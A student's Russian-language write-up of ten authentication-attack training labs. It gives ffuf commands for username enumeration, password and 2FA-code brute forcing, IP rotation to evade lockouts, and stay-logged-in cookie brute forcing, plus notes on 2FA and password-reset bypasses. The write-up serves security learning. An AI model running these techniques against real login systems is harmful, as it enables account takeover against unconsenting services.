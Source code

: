 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд

![2025-10-22-at-14-59-23.png](Nikolaev_mikhail_pr5-img/2025-10-22-at-14-59-23.png)

```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```

## 7. Lab: Username enumeration via account lock

Заметил, что на несуществующие юзернеймы нет блока по количеству попыток входа. Победа??

```
ffuf -request req.txt -request-proto https \
  -w users.txt:USERFUZZ -w empty.txt:PASSFUZZ \
  -mode clusterbomb -c -fs 3132
```

В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`

Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.

argentina:starwars

```
ffuf -request req.txt -request-proto https \
  -w pass.txt \
  -c -fr 'You have made too many incorrect login'
```

## 8. Lab: 2FA broken logic

Заметил, что в ручке GET /login2 в куки можно поставить ник. Таким образом я туда вставил ник carlos и загенерил ему 2FA

Далее со своего акка взял request, поменял на carlos ник, забрутил его ffuf

```
ffuf -request req.txt -request-proto https \
  -w ~/red/SecLists/Fuzzing/4-digits-0000-9999.txt \
  -c -fc 200
```

## 9. Lab: Brute-forcing a stay-logged-in cookie

Тут прикол в том, что в куки есть поле stay-logged-in, которое в формате base64(username:md5(password)).

Потому я написал bash скрипт, который создал мне вордлист для этого поля (change.sh) на основе имеющегося вордлиста пароля и юзера carlos.

Далее я добавил флаг -r в ffuf для того, чтобы следовать редиректам, и догадался отрубить куки "session" потому что оно мешало. Итого получил такой запрос

```
➜ ffuf -request req.txt -request-proto https \
  -w payloads.txt \
  -c -r -mr "Update email"
```

## 10. Lab: Offline password cracking

Тут как будто задача больше на скрафтить xss (я не смог). xss обращается по ручке server/cookie и мы забираем эту куки. потом кракаем хэш.


